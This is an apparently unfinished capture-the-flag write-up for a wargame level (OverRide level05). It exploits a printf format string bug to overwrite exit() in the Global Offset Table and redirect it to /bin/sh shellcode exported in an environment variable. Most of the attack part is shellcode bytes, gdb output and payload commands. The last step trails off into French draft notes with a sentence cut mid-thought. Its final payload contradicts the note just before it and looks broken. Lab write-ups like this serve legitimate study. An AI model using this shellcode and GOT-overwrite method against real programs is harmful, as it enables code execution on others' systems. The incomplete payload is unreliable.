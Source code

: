 The program is quite simple. It records the user's input in a buffer with a call to fgets(). Then it makes a kind of tolower() for each uppercase alphabetic character in the buffer. Finally, the content of the buffer is displayed with a badly formatted printf() before the program exits using `exit(0)`.

We will be able to perform a format string attack thanks to the badly formatted printf(). We will have to use a shellcode, and for its execution, we should be able to overwrite the address of exit() in the Global Offset Table (GOT). Here is our roadmap:
1. export a shellcode in an environment variable and find its address in memory.
2. find the exit() address in the Global Offset Table.
3. find the offset of the buffer.
4. build our payload.

1. First, let's export a shellcode in an environment variable and find its address using [this little script](env_addr.c):
```
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "a" * 79 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
level05@OverRide:/tmp$ gcc -m32 env_addr.c -o env_addr
level05@OverRide:/tmp$ ./env_addr SHELLCODE
0xffffd88a
```

2. Let's now get the address of exit() in the Global Offset Table using gdb:
```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```
So we now have the address we want to ovewrite: 0x80497e0.

3. Now, let's find the offset of the buffer:
```
level05@OverRide:~$ ./level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd6cf ffffd6ce 0 ffffffff ffffd754 f7fdb000 61616161 20782520
```
Here we have the begining of the buffer (61616161 = "aaaa") with an offset of 10.

4. We can now build our payload: 









objectif: exploiter le printf mal formaté (= format string attack)
comment ? avec le %n modifier. On va enregistrer un shellcode dans une variable d'environnement, puis on va exploiter le printf pour modifier l'adresse de exit dans la GOT et mettre l'adresse de notre variable à la place.



1: au debut du buffer, on donne l'adresse qu'on veut modifier (adresse de exit dans la GOT)
2: on utilise %d avec de un field width d'une valeur définie
3: on utilise %10$n pour écrire le nombre de bytes donnés jusque là à l'adresse qui a un offset de 10 (notre buffer). comme il y a l'addresse de exit dans la GOT au début de notre buffer, c'est en fait là qu'on va écrire.

Et pour finir, ce qu'on veut érire, c'est la valeur décimale de l'adresse de notre shellcode.

La difficulté ici, c'est que la valeur décimale de l'adresse de notre shellcode est trop grande pour







SHELLCODE addr: 0xffffd88a (= 4294957194)


python -c 'print "\xe0\x97\x04\x08" + "%4294957190d" + "%10$n"' > /tmp/exp





We can now reach the next level with the command `su level06` and fill in the flag found as a password.